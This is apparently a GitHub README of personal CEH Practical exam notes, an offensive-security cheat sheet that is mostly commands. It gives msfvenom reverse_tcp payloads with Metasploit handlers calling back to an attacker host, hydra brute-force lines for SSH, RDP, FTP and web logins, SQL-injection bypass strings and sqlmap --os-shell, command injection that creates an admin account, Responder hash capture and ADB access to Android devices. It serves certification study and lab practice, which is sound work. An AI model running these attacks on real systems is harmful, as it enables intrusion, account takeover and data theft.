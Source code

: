 <img src="/IMG/CEH-Practical-Logo.jpg">

# CEH-Practical-Notes-and-Tools
Successfully completed the CEH (Practical) exam by EC-Council with a score of 20/20! Took me around 2 hours 20 minutes to complete the 6 hour Proctored exam.  

> Just a typical CTF Player/Hacker going back to Basics 💻

> My Personal Notes that I used on the Exam as a Cheatsheet

# Network Hacking - Enumeration
<details>
  <summary>Netdiscover </summary>
  
## Netdiscover
  
* Scan Entire Network for ALive host using ARP
```console
netdiscover -i eth0
netdiscover -r x.x.x.1/24
```
* Enum
```console
1- NetBios enum using windows- in cmd type- nbtstat -a 10.10.10.10 (-a displays NEtBIOS name table)

2- NetBios enum using nmap- nmap -sV -v --script nbstat.nse 10.10.10.16

3- SNMP enum using nmap-  nmap -sU -p 161 10.10.10.10 (-p 161 is port for SNMP)--> Check if port is open
                          snmp-check 10.10.10.10 ( It will show user accounts, processes etc) --> for parrot

4- DNS recon/enum-  dnsrecon -d www.google.com -z

5- FTP enum using nmap-  nmap -p 21 -A 10.10.10.10 

6- NetBios enum using enum4linux- enum4linux -u martin -p apple -n 10.10.10.10 (all info)
				  enum4linux -u martin -p apple -P 10.10.10.10 (policy info)
  ```
</details>

<details>
  <summary>Nmap </summary>
  
## Nmap

* To scan the live Host
```console
nmap -sP x.x.x.1/24                 
nmap -sn x.x.x.1/24
```

Null Scan
```console
nmap -sN x.x.x.x
```
* To find the Specific open port 
```console
nmap -p port x.x.x.1/24 --open
```
* To find the OS 
```console
nmap -O x.x.x.x 
```
* Comprehensive Scan
```console
nmap -Pn -A x.x.x.1/24 -vv --open   
```
* To find FQDN (Find the FQDN in a subnet/network)
```console
nmap -p389 –sV -iL <target_list>
```
```console
 nmap -p389 –sV <target_IP>
```

* Scanning Networks (always do sudo su) --> To be root

  Nmap scan for alive/active hosts command for 192.189.19.18
```console
nmap -A 192.189.19.0/24 or nmap -T4 -A ip
```
  
Zenmap/nmap command for TCP scan- First put the target ip in the Target: and then in the Command: put this command 
```console
nmap -sT -v 10.10.10.16
```
  
Nmap scan if firewall/IDS is opened, half scan 
```console
nmap -sS -v 10.10.10.16 
```
  
If even this the above command is not working then use this command  
```console
namp -f 10.10.10.16
```
Nmap scan for host discovery or OS- nmap -O 192.168.92.10 or you can use
```console
nmap -A 192.168.92.10
```

If host is windows then use this command - this script determines the OS, computer name, domain, workgroup, time over smb protocol (ports 445 or 139).
```console
nmap --script smb-os-discovery.nse 192.168.12.22 
```

nmap command for source port manipulation, in this port is given or we use common port  
```console
nmap -g 80 10.10.10.10
```
```console  
-A command is aggressive scan it includes - OS detection (-O), Version (-sV), Script (-sS) and traceroute (--traceroute).
```
```console  
5- Identify Target system os with (Time to Live) TTL and TCP window sizes using wireshark- Check the target ip Time to live value with protocol ICMP. If it is 128 then it is windows, as ICMP value came from windows. If TTL is 64 then it is linux. Every OS has different TTL. TTL 254 is solaris.
```
Some extra RDP info
```console
Check RDP enabled after getting ip- nmap -p 3389 -iL ip.txt | grep open (ip.txt contains all the alive hosts from target subnet)
```
Some extra MYSQL info
```console
Check MySQL service running- nmap -p 3306 -iL ip.txt | grep open        (ip.txt contains all the alive hosts from target subnet)
```

</details>


<details>
  <summary>🔢 Enumeration Cheatsheet </summary>
	
# 🔢 Enumeration Cheatsheet

#### **General Enumeration:**

* ```
  nmap -vv -Pn -A -sC -sS -T 4 -p- 10.0.0.1
  ```
  * Verbose, syn, all ports, all scripts, no ping
* ```
  nmap -v -sS -A -T4 x.x.x.x
  ```
  * Verbose, SYN Stealth, Version info, and scripts against services.
* ```
  nmap –script smb-check-vulns.nse –script-args=unsafe=1 -p445 [host]
  ```
  * Nmap script to scan for vulnerable SMB servers – WARNING: unsafe=1 may cause knockover
* ```
  netdiscover -r 192.168.1.0/24
  ```

#### **FTP Enumeration (21):** <a href="#toc475368978" id="toc475368978"></a>

* ```
  nmap –script ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221,tftp-enum -p 21 10.0.0.1
  ```

#### **SSH (22):** <a href="#toc475368979" id="toc475368979"></a>

* ```
  ssh INSERTIPADDRESS 22
  ```

#### **SMTP Enumeration (25):** <a href="#toc475368980" id="toc475368980"></a>

* ```
  nmap –script smtp-commands,smtp-enum-users,smtp-vuln-cve2010-4344,smtp-vuln-cve2011-1720,smtp-vuln-cve2011-1764 -p 25 10.0.0.1
  ```
* ```
  nc -nvv INSERTIPADDRESS 25
  ```
* ```
  telnet INSERTIPADDRESS 25
  ```

#### **Finger Enumeration (79):** <a href="#toc494187363" id="toc494187363"></a>

Download script and run it with a wordlist: [http://pentestmonkey.net/tools/user-enumeration/finger-user-enum](http://pentestmonkey.net/tools/user-enumeration/finger-user-enum)

#### **Web Enumeration (80/443):** <a href="#toc475368981" id="toc475368981"></a>

* dirbuster (GUI)
* ```
  dirb http://10.0.0.1/
  ```
* ```
  nikto –h 10.0.0.1
  ```

#### **Pop3 (110):** <a href="#toc475368982" id="toc475368982"></a>

* ```
  telnet INSERTIPADDRESS 110
  ```
* ```
  USER [username]
  ```
* ```
  PASS [password]
  ```
  * To login
* ```
  LIST
  ```
  * To list messages
* ```
  RETR [message number]
  ```
  * Retrieve message
* ```
  QUIT
  ```
  * quits

#### **RPCBind (111):** <a href="#toc475368983" id="toc475368983"></a>

* ```
  rpcinfo –p x.x.x.x
  ```

#### **SMB\RPC Enumeration (139/445):** <a href="#toc475368984" id="toc475368984"></a>
```console

find ip using NMAP
-> smbclient -L \\IP >> for sharename
-> hydra -L userlist.txt -p passlist.txt ip smb


-> smbclient \\\\ip\\sharename -U user
type txt
```
* ```
  enum4linux –a 10.0.0.1
  ```
* `nbtscan x.x.x.x`
  * Discover Windows / Samba servers on subnet, finds Windows MAC addresses, netbios name and discover client workgroup / domain
* ```
  py 192.168.XXX.XXX 500 50000 dict.txt
  ```
* ```
  python /usr/share/doc/python-impacket-doc/examples/samrdump.py 192.168.XXX.XXX
  ```
* ```
  nmap IPADDR --script smb-enum-domains.nse,smb-enum-groups.nse,smb-enum-processes.nse,smb-enum-sessions.nse,smb-enum-shares.nse,smb-enum-users.nse,smb-ls.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-print-text.nse,smb-psexec.nse,smb-security-mode.nse,smb-server-stats.nse,smb-system-info.nse,smb-vuln-conficker.nse,smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-regsvc-dos.nse
  ```
* ```
  smbclient -L //INSERTIPADDRESS/
  ```
  * List open shares
* ```
  smbclient //INSERTIPADDRESS/ipc$ -U john
  ```

#### **SNMP Enumeration (161):** <a href="#toc475368985" id="toc475368985"></a>

* ```
  snmpwalk -c public -v1 10.0.0.0
  ```
* ```
  snmpcheck -t 192.168.1.X -c public
  ```
* ```
  onesixtyone -c names -i hosts
  ```
* ```
  nmap -sT -p 161 192.168.X.X -oG snmp_results.txt
  ```
* ```
  snmpenum -t 192.168.1.X
  ```

#### **Oracle (1521):** <a href="#toc475368986" id="toc475368986"></a>

* ```
  tnscmd10g version -h INSERTIPADDRESS
  ```
* ```
  tnscmd10g status -h INSERTIPADDRESS
  ```

#### **Mysql Enumeration (3306):** <a href="#toc475368987" id="toc475368987"></a>

* ```
  nmap -sV -Pn -vv  10.0.0.1 -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122
  ```

#### **DNS Zone Transfers:** <a href="#toc475368988" id="toc475368988"></a>

* ```
  nslookup -> set type=any -> ls -d blah.com
  ```
* ```
  dig axfr blah.com @ns1.blah.com
  ```
  * This one works the best in my experience
* ```
  dnsrecon -d TARGET -D /usr/share/wordlists/dnsmap.txt -t std --xml ouput.xml
  ```

#### **Mounting File Share** <a href="#toc475368989" id="toc475368989"></a>

* ```
  showmount -e IPADDR
  ```
* ```
  mount 192.168.1.1:/vol/share /mnt/nfs  -nolock
  ```
  * mounts the share to /mnt/nfs without locking it
* ```
  mount -t cifs -o username=user,password=pass,domain=blah //192.168.1.X/share-name /mnt/cifs
  ```
  * Mount Windows CIFS / SMB share on Linux at /mnt/cifs if you remove password it will prompt on the CLI (more secure as it wont end up in bash\_history)
* ```
  net use Z: \\win-server\share password  /user:domain\janedoe /savecred /p:no
  ```
  * Mount a Windows share on Windows from the command line
* ```
  apt-get install smb4k –y
  ```
  * Install smb4k on Kali, useful Linux GUI for browsing SMB shares

#### **Fingerprinting:  Basic versioning / finger printing via displayed banner** <a href="#toc475368990" id="toc475368990"></a>

* ```
  nc -v 192.168.1.1 25
  ```
* ```
  telnet 192.168.1.1 25
  ```

#### **Exploit Research** <a href="#toc475368991" id="toc475368991"></a>

* ```
  searchsploit windows 2003 | grep -i local
  ```
  * Search exploit-db for exploit, in this example windows 2003 + local esc

#### **Compiling Exploits** <a href="#toc475368992" id="toc475368992"></a>

* ```
  gcc -o exploit exploit.c
  ```
  * Compile C code, add –m32 after ‘gcc’ for compiling 32 bit code on 64 bit Linux
* ```
  i586-mingw32msvc-gcc exploit.c -lws2_32 -o exploit.exe
  ```
  * Compile windows .exe on Linux

#### **Packet Inspection:** <a href="#toc475368993" id="toc475368993"></a>

* ```
  tcpdump tcp port 80 -w output.pcap -i eth0
  ```
  * tcpdump for port 80 on interface eth0, outputs to output.pcap

\
**
</details>

  <details>
  <summary>Wireshark</summary>
    
  ## Wireshark
  
  * Wireshark provides the feature of reassembling a stream of plain text protocol packets into a human-readable format
  
  ```shell
    select_packet > follow > TCP Stream
  ```
  
  * To the get the specific method like ( post , get )
  
  ```console
  http.request.method==post
  http.request.method==get
  ```
  * To the Find DOS & DDOS (SYN and ACK) : 
```console
tcp.flags.syn == 1 , tcp.flags.syn == 1 and tcp.flags.ack == 0
```
  * go to Statistics and Select Conversations , sort by packets in IPv4 based on number of Packets transfer
  
  ```shell
  Statistics > Conversations > IPv4 > Packets
  ```
* Wireshark summary
   
  ```console
  tcp.flags.syn == 1 and tcp.flags.ack == 0    (How many machines) or Go to statistics IPv4 addresses--> Source and Destination ---> Then you can apply the filter given

  tcp.flags.syn == 1   (Which machine for dos)

  http.request.method == POST   (for passwords) or click tools ---> credentials Also
  ```

 * Password Sniffing using Wireshark.  
In pcap file apply filter:- (you will get all the post request) Now to capture password click on edit in menu bar, then near Find packet section, on the "display filter" select "string", also select "Packet details" from the drop down of "Packet list", also change "narrow & wide" to "Narrow UTF-8 & ASCII", and then type "pwd" in the find section.
```console
http.request.method==POST
```
### wireshark filters
```console
### wireshark filters

# // filters by post
http.request.method==POST
smtp // email
pop // email
dns.qry.type == 1 -T fields -e dns.qry.name = show records present in this pcap
dns.flags.response == 0 = There are 56 unique DNS queries.
tcp // show tcp packets
# //find packets
edit > find packets > packet list : packet bytes > case sensitive: strings > string "pass" :search

# //DDOS ATTACK
look number of packets first column
then >statistics > ipv4 statistics > destination and ports

# ///Capture Packets with tcpdump
tcpdump -i eth0 -w capture.pcap

# ///Analyze with Wireshark filters
http.request.method == "POST"
ftp.request.command == "USER" || ftp.request.command == "PASS"

# /// tshark cli
tshark -r dns.cap | wc -l //count how many packets are in a capture
tshark -r dns.cap -Y "dns.qry.type == 1" -T fields -e dns.qry.name //show records present in this pcap
tshark -r dnsexfil.pcap -Y "dns.flags.response == 0" | wc -l 
tshark -r pcap -T fields -e dns.qry.name | uniq | wc -l //There are 56 unique DNS queries.
tshark -r pcap | head -n2 //DNS server side to identify 'special' queries
tshark -r pcap -Y "dns.flags.response == 0" -T fields -e "dns.qry.name" | sed "s/.m4lwhere.org//g" | tr -d "\n" `exfiltrate data with regx`
```
</details>

<details>
  <summary>Covert TCP</summary>
  
  ## Covert TCP
  
  * [covert_TCP](Covert_TCP.c) 
  * In this we have to use Covert TCP technique to analyses the pcapng file.
  * Traverse though each line in Wireshark and concentrate on Identification field, keep an eye on Hex value and ANSI value.
  * Compile the Code
  ```console
cc -o covert_tcp covert_tcp.c
  ```
  * Reciever Machine(Client_IP)
  ```console
  sudo ./covert_tcp -dest Client_IP -source Attacker_IP -source_port 9999 -dest_port 8888 -server -file recieve.txt
  ```
  * Sender Machine(Attacker_IP)
  * Create A Message file that need to be transferred Eg: secret.txt
  ```console
  sudo ./covert_tcp -dest Client_IP -source Attacker_IP -source_port 8888 -dest_port 9999 -file secret.txt
  ```
 
 * Secret message sent using Covert_TCP and it is captured using Wireshark - [Pcap_of_Covert](Covert_TCP_Capture.pcapng)
 * The Secret text is -> Hello  This 123 -

  <img src="/IMG/CovertWireshark.jpg" />

 

</details>

<details>
  <summary> LLMNR/NBT</summary>
  
  ##  LLMNR/NBT-NS Poisoning

* [Responder](https://github.com/lgandx/Responder) - rogue authentication server to capture hashes.

* This can be used to get the already logged-in user's password, who is trying to access a shared resource which is not present.
  
* In Parrot/Kali OS, 

```console
responder -I eth0  
```

* In windows, try to access the shared resource, logs are stored at usr/share/responder/logs/SMB<filename>
* To crack that hash, use JohntheRipper

```console
john SMBfilename  
```
</details>

<details>
  <summary>Common Ports</summary>
  
 ## Common Port

* 21        - FTP
* 22        - SSH
* 23        - TELNET
* 3306      - MYSQL
* 389,3389  - RDP

</details>

<details>
  <summary>Port Login</summary>

  ## Port Login
    
  * FTP Login
    default username: anonymous
  ```console
    ftp x.x.x.x
  ```
If non standard port like 10021 
```console
    ftp x.x.x.x 10021
  ```
    
  * SSH Login  
  ```console
    ssh username@x.x.x.x
  ```
    
  * TELNET Login
  ```console
    telnet x.x.x.x
  ```
   
 </details>
</details>

# Web Hacking
<details>
	
<summary>HACKING WEB</summary>

@@ Hacking Web servers

```console
1- Footprinting web server Using Netcat and Telnet- nc -vv www.movies.com 80
						    GET /HTTP/1.0
						    telnet www.movies.com 80
						    GET /HTTP/1.0

2- Enumerate Web server info using nmap-  nmap -sV --script=http-enum www.movies.com

3- Crack FTP port using nmap-
nmap -p 21 10.10.10.10 (check if it is open or not)

ftp 10.10.10.10 (To see if it is directly connecting or need credentials if need. Then go to Desktop and in Ceh tools folder you will find wordlists, here you will find usernames and passwords file. )

Now in terminal type-
hydra -L /home/attacker/Desktop/CEH_TOOLS/Wordlists/Username.txt -P /home/attacker/Desktop/CEH_TOOLS/Wordlists/Password.txt ftp://10.10.10.10
or
hydra -l user -P passlist.txt ftp://10.10.10.10
```

@@ Hacking Web Application
```console
1- Scan Using OWASP ZAP (Parrot)- Type 'zaproxy' in the terminal and then it would open. In target tab put the url and click automated scan.

2- Directory Bruteforcing
gobuster dir -u 10.10.10.10 -w /home/attacker/Desktop/common.txt

3- Enumerate a Web Application using WPscan & Metasploit BFA- (u means username) 
wpscan --url http://10.10.10.10:8080/NEW --enumerate u  

Then type msfconsole to open metasploit. Type -  use auxilliary/scanner/http/wordpress_login_enum
 						 show options
						 set PASS_FILE /home/attacker/Desktop/Wordlist/password.txt
						 set RHOSTS 10.10.10.10  (target ip)
						 set RPORT 8080          (target port)
						 set TARGETURI http://10.10.10.10:8080/
						 set USERNAME admin

4- Brute Force using WPscan -    wpscan --url http://10.10.10.10:8080/NEW -u root -P passwdfile.txt (Use this only after enumerating the user like in step 3)
			         wpscan --url http://10.10.10.10:8080/NEW --usernames userlist.txt, --passwords passwdlist.txt 

5- Command Injection-  | net user  (Find users)
 		       | dir C:\  (directory listing)
                       | net user Test/Add  (Add a user)
		       | net user Test      (Check a user)
		       | net localgroup Administrators Test/Add   (To convert the test account to admin)
		       | net user Test      (Once again check to see if it has become administrator)
Now you can do a RDP connection with the given ip and the Test account which you created.
```
 </details>
<details>

 <summary>Enumeration</summary>

### Banner Grabbing
```console
nc -nv 192.168.1.5 80              # Netcat to check web server banner
 ```

 ### dir enumeration

 ```console
gobuster dir -u 10.10.. -w /usr/share/wordlists/dirb/common.txt -t 50 -x php,html,txt -q
```
```console
dir : directory listing
-u : host
-w : wordlists
-t : threads int / Number of concurrent threads (default 10)
-x : enumerate hidden files htm, php
-q : –quiet / Don’t print the banner and other noise

// wordpress enumeration
wpscan --url https://localchost.com --passwords=
wpscan -u 10.10.. -e u vp
wpscan -u 10.10.. -e u --wordlist path/rockyou.txt //bruteforce

-e = enumerate
u = enumerate usernames
vp = vulnerable plugins

// wordlist generation
cewl -w wordlist -d 2 -m 5 http://wordpress.com
-d = deeph of the scanning
-m = long of the words
-w = save to a file worlist
```
### enumerating -samba
```console
search for commands
smbmap --help | grep -i username

smbmap -u "admin" -p "passowrd" -H 10.10.10.10 -x "ipconfig"
-x = command
```
</details>
<details>

  <summary>Nslookup</summary>

* To verify Website's Ip
```console
Nslookup wwww.example.com
```
  </details>
  <details>
  <summary>File Upload</summary>
  
  ## File Upload Vulnerability
  
* To create a PHP Payload 
* Copy the PHP code and create a .php
  
```console
msfvenom -p php/meterpreter/reverse_tcp lhost=attacker-ip lport=attcker-port -f raw
```
  
* To create a Reverse_tcp Connection
```console
msfconsole
use exploit/multi/handler
set payload php/meterepreter/reverse_tcp
set LHOST = attacker-ip
set LPORT = attcker-port
run
```
  
* To find the secret file 
```console
  type C:\wamp64\www\DVWA\hackable\uploads\Hash.txt
```
  </details>
<details>

 Summary
 ```console
1- Auth Bypass-  hi'OR 1=1 --

2- Insert new details if sql injection found in login page in username tab enter- blah';insert into login values('john','apple123');--

3- Exploit a Blind SQL Injection- In the website profile, do inspect element and in the console tab write -  document.cookie
Then copy the cookie value that was presented after this command. Then go to terminal and type this command,
sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" --dbs

4- Command to check tables of database retrieved-  sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" -D databasename --tables

5- Select the table you want to dump-  sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" -D databasename -T Table_Name --dump   (Get username and password)

6- For OS shell this is the command-   sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" --os-shell

6.1 In the shell type-   TASKLIST  (to view the tasks)

6.2 Use systeminfo for windows to get all os version

6.3 Use uname -a for linux to get os version
```
  <summary>SQL Injection</summary>
  
  ## SQL Injection
  
  * Login bypass with [' or 1=1 --]
  

### SQLMAP
  
* List databases, add cookie values
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” --dbs 
```
* OR
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low”   --data="id=1&Submit=Submit" --dbs  
```

* List Tables, add databse name
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name --tables  
```
* List Columns of that table
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name -T target_Table --columns
```
* Dump all values of the table
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name -T target_Table --dump
```

### DSSS
  
  * Damn Small SQLi Scanner ([DSSS](https://github.com/stamparm/DSSS)) is a fully functional SQL injection vulnerability scanner (supporting GET and POST parameters)

  * As of optional settings it supports HTTP proxy together with HTTP header values User-Agent, Referer and Cookie.

  ```console
  python3 dsss.py -u "url" --cookie="cookie"
  ```
  <img src="/IMG/DSSS/dsss1.jpg" />  

  
  * Open the binded URL
  
  <img src="/IMG/DSSS/dsss2.jpg" />  

  
  </details>



</details>

# System Hacking

<details>
  <summary>System</summary>
  
  ## System 

  * To create a Payload 
```console
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=attacker_IP LPORT=attacker_Port -o filename.exe 
```
* To take a reverse TCP connection from windows
```console
msfdb init && msfconsole 
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST= attacker-IP  
set LPORT= attacker-Port 
run
```

</details>

### FILE search
FILE search
-> find / -name Flag.txt 2>/dev/null

# Android Hacking
<details>
<summary>Android</summary>

  ## Android
  
```console
1- nmap ip -sV -p 5555    (Scan for adb port)

2- adb connect IP:5555    (Connect adb with parrot)

3- adb shell              (Access mobile device on parrot)

4- pwd --> ls --> cd sdcard --> ls --> cat secret.txt (If you can't find it there then go to Downloads folder using: cd downloads)
```

  <summary>ADB</summary>

  ## ADB
  
* To Install ADB
```console
apt-get update
sudo apt-get install adb -y
adb devices -l
```
* Connection Establish Steps

```console
adb connect x.x.x.x:5555
adb devices -l
adb shell  
```
* To navigate
```console
pwd
ls
cd Download
ls
cd sdcard
```
* Download a File from Android using ADB tool
```console
adb pull /sdcard/log.txt C:\Users\admin\Desktop\log.txt 
adb pull sdcard/log.txt /home/mmurphy/Desktop
```
</details>
<details>
  <summary>PhoneSploit</summary>
  
## PhoneSploit tool
  
* To install Phonesploit 

```console
git clone https://github.com/aerosol-can/PhoneSploit
cd PhoneSploit
pip3 install colorama
OR
python3 -m pip install colorama
```
* To run Phonesploit
```console
python3 phonesploit.py

```

```console
* Type 3 and Press Enter to Connect a new Phone OR Enter IP of Android Device
* Type 4, to Access Shell on phone
* Download File using PhoneSploit

 cd /
-> cd sdcard search for flag img and then
-> pwd for file location
-> 9 for pulling img
-> location of img
-> where you want to save
Transfer to windows for decrypting using python server
```

9. Pull Folders from Phone to PC
```console

* Enter the Full Path of file to Download
sdcard/Download/secret.txt
```  
</details>

# Password Cracking & Hashing



<details>
  <summary>Wpscan</summary>
  
## Wordpress

* Wordpress site only Users Enumeration
```console
wpscan --url http://example.com/ceh --enumerate u
```
  * Direct crack if we have user/password detail
```console
wpscan --url http://x.x.x.x/wordpress/ -U users.txt -P /usr/share/wordlists/rockyou.txt
wpscan --url http://x.x.x.x:8080/CEH -u <user> -P ~/wordlists/password.txt
```
</details>

<details>
  <summary>Hydra</summary>

## Hydra


### GUI
```console
xhydra
```
### FILE search
```console
-> find / -name Flag.txt 2>/dev/null
```
### RDP
```console
hydra -V -f -L usernames.txt -P passwords.txt rdp://10.0.2.5 -V
```
### SSH
```console
hydra -l username -P passlist.txt x.x.x.x ssh

hydra -l root -P passwords.txt -f ssh://10.0.2.5 -V
```
```console
hydra -t4 -l lin -P /usr/share/wordlists/rockyou.txt ssh:10.10.149.11
hydra -l lin -P /usr/share/wordlists/rockyou.txt ssh:10.10.149.118
```
### FTP
```console
hydra -L userlist.txt -P passlist.txt ftp://x.x.x.x

hydra -l user -P passlist.txt ftp://10.10.10.10
```
* If the service isn't running on the default port, use -s
```console
hydra -L userlist.txt -P passlist.txt ftp://x.x.x.x -s 221
```
* Used to download the specific file from FTP to attacker or local machine
```console
get flag.txt ~/Desktop/filepath/flag.txt
get flag.txt .
```
### SMB
```console
hydra -l root -P passwords.txt -f smb://10.0.2.5 -V
```

### HTTP Basic Auth
```console
hydra -L users.txt -P password.txt 10.0.2.5 http-get /login/ -V
```
### HTTP POST
```console
# HTTP Post
hydra -L users.txt -P password.txt 10.0.2.5 http-post-form
"/path/index.php:name=^USER^&password=^PASS^&enter=Sign+in:Login
name or password is incorrect" -V
```
### IMAP
```console
# IMAP
hydra -l root -P passwords.txt -f imap://10.0.2.5 -V
```
### POP
```console
# POP
hydra -l USERNAME -P passwords.txt -f pop3://10.0.2.5 -V
```

### Post Web Form
```console
hydra -l -P 10.10.46.122 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V
```


### TELNET
```console
hydra -l admin -P passlist.txt -o test.txt x.x.x.x telnet
```
### Other Examples
```console
Rexec
hydra -l root -P password.txt rexec://10.0.2.5 -V

Rlogin
hydra -l root -P password.txt rlogin://10.0.2.5 -V

RSH
hydra -L username.txt rsh://10.0.2.5 -V

RSP
hydra -l root -P passwords.txt <IP> rtsp

SMTP
hydra -l <username> -P /path/to/passwords.txt <IP> smtp -V
hydra -l <username> -P /path/to/passwords.txt -s 587 <IP> -S -v -V
#Port 587 for SMTP with SSL

Telnet
hydra -l root -P passwords.txt [-t 32] <IP> telnet

VNC
hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt -s <PORT>
<IP> vnc
```
</details>

<details>
<summary>hash</summary>

## hash
<summary>hash</summary>

### Using Hashcat
hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt

### hashcat -a attack mode -m hashtype 900 md4 1000 NTLM 1800 SHA512CRYPT 110 SHA1 with SALT HASH 0 MD5 100 SHA1 1400 SHA256 3200 BCRYPT 160 HMAC-SHA1
```console
Hashcat -a 3 -m 900 hash.txt /rockyou.txt
```
### Hash Identifier 
```console
https://www.onlinehashcrack.com/hash-identification.php
```
### Hash-identifier (CLI)
#### Hash Crack 
```console
https://crackstation.net/ https://hashes.com/en/decrypt/hash
```

</details>



<details>
<summary>John</summary>

# John

### Using John
```console
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```


## Commands Formats

```console
john --list=formats
```

### Crack SHA1

```console
john  --format=raw-sha1 hash.txt
```

### Crack MD5

```console
john --format=raw-md5 hash.txt
```

### Cracking Shadow Files

# Unshadow
unshadow passwd.txt shadow.txt > unshadowed.txt


# John
		
john /etc/shadow

<strong># Wordlist
john --wordlist=&#x3C;password.txt> /etc/shadow

### Cracking Zip Files

```console
# Zip to John
zip2john file.zip > ziphash.txt

```
```console
# John
john --format=zip ziphash.txt
```

### Crack .pfx File

```console
pfx2john <pfx file> > hash.txt

john hash.txt --wordlist=<wordlist location>
```

### Crack GPG Passphrase

**Read More** [Here](https://blog.atucom.net/2015/08/cracking-gpg-key-passwords-using-john.html)

```console
gpg2john priv.key > hash 

john hash --wordlist=/usr/share/wordlists/rockyou.txt 
```

### Crack SSH Passphrase

```console
ssh2john /home/chinju/.ssh/id_rsa > ssh_hash.txt

john ssh_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

 </details>
  
# Steganography
  
  <details>
	  <summary>Steganography</summary>
	  
## Steganography
	  
### Extract files from images
```console
steghide extract -sf secret.jpg
```
### Find hidden strings
```console
strings suspect.png | less
 ```
  </details>
  
  <details>
	  <summary>Snow</summary>

### Snow
    
* Whitespace Steganography using [Snow](https://darkside.com.au/snow/snwdos32.zip)
* To hide the Text  
  
```console
SNOW.EXE -C -p test -m "Secret Message" original.txt hide.txt
```

* To unhide the Hidden Text

```console
SNOW.EXE -C -p test hide.txt
```
kali Hide Data Using Whitespace Stegnography- (magic is password and your secret is stored in readme2.txt along with the content of readme.txt)
```console
snow -C -m "My swiss account number is 121212121212" -p "magic" readme.txt readme2.txt  
```
To Display Hidden Data-(then it will show the content of readme2.txt content) 
```console
snow -C -p "magic" readme2.txt
```
<img src="/IMG/Snow.png"/>

</details>

<details>
  <summary>CrypTool</summary>
  
  ### CrypTool
  
  * [CrypTool](https://www.cryptool.org/en/ct1/downloads) for hex 
  
  <img src = "/IMG/Cryptool/CT.png"/>
  
  * To Encrypt
  
  <img src = "/IMG/Cryptool/CT5.png"/>
  <img src = "/IMG/Cryptool/CT6.png"/>
  
  * Use Key 05 
  
  <img src = "/IMG/Cryptool/CT7.png"/>
  <img src = "/IMG/Cryptool/CT8.png"/>
  <img src = "/IMG/Cryptool/CT9.png"/>
  <img src = "/IMG/Cryptool/CT10.png"/>
  <img src = "/IMG/Cryptool/CT11.png"/>
  
  * To Decrypt
  
  <img src = "/IMG/Cryptool/CT12.png"/>
  <img src = "/IMG/Cryptool/CT13.png"/>
  <img src = "/IMG/Cryptool/CT14.png"/>
  <img src = "/IMG/Cryptool/CT15.png"/>
  <img src = "/IMG/Cryptool/CT16.png"/>
 </details>
  
 <details>
   <summary>HashCalc</summary>
   
   ## HashCalc
    
   * HashCalc Interface.
   <img src = "/IMG/HashCalc/Hcal1.png"/>

   * Create a text file.
   <img src = "/IMG/HashCalc/Hcal2.png"/>
   
   * Choose text file.
   <img src = "/IMG/HashCalc/Hcal3.png"/>
   
   * Hash Value of text file.
   <img src = "/IMG/HashCalc/Hcal4.png"/>
   
   * Modify the text inside the file. 
   <img src = "/IMG/HashCalc/Hcal5.png"/>
   
   * Compare the hash, It will vary.
   <img src = "/IMG/HashCalc/Hcal6.png"/>
   
 </details>

  <details>
    <summary>HashMyFile</summary>
 
  ## HashMyFile  
    
  * HashMyFile Application
  <img src = "/IMG/HashMyFile/HMF1.png"/>
    
  * add folder to Hash the file presented in Folder  
  <img src = "/IMG/HashMyFile/HMF2.png"/>  
  <img src = "/IMG/HashMyFile/HMF3.png"/>

  * After Hash the file
  <img src = "/IMG/HashMyFile/HMF4.png"/>
    
